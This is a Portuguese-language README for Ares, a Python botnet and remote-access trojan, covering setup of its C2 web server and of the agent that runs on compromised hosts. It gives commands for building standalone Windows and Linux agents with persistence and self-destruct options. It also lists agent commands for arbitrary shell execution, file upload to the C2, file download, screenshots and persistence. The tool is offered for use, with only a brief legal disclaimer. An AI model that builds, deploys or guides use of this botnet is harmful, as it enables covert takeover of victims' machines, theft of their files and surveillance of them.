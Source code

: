 ![image](https://small.pngfans.com/20190413/xr/ares-gaming-logo-png-video-games-ares-clipart-f1f07afde6f7f9fc.jpg)

# Ares

Ares é uma botnet do tipo RAT (Remote Access Tool) escrita em Python.

__ADVERTÊNCIA: Utilize este software apenas de acordo com a legislação atual. O uso indevido deste software pode suscitar questões legais e éticas pelas quais não apoio e nem me responsabilizo .__

Ares foi desenvolvido em cima de duas aplicações principais:

- Um servidor C2 com interface web para gerência e administração dos agentes
- Um programa agente (agent), que é executado no host comprometido, e garante a comunicação com o C2

A interface da Web pode ser executada em qualquer servidor executando o Python. O agente pode ser compilado em executáveis nativos usando o ** pyinstaller **.

## Setup

Instalando as dependências:

```
pip install -r requirements.txt
```

Inicializando a base de dados:

```
cd server
./ares.py initdb
```

Se quiser compilar executáveis para Windows, rode as configurações do Wine (opcional):

```
./wine_setup.sh
```

## Server

Rode o webserver em python (suporta nodo debbuging):

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Ou rode usando gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

Seu servidor estará acessível em http://localhost:8080

## Agent

Rode o agente em python (altere as opções do config.py para adaptar ao seu cenário):

```
cd agent
./agent.py
```

Construa um binário standalone:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

Para ver uma lista de opções suportadas, rode ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executa o comando em um shell e retorna sua saída.

upload <local_file>
Faz uploads <local_file> para o servidor.

download <url> <destination>
Faz o downloads de um arquivo usando HTTP(S).

zip <archive_name> <folder>
Cria um arquivo zip no diretório especificado.

screenshot
Tira um screenshot.

python <command|file>
Executa um comando Python ou um arquivo local.

persist
Instala o agente (persistência).

clean
Desistala o agente.

exit
Mata o processo do agente.

help
Exibe este help.
```
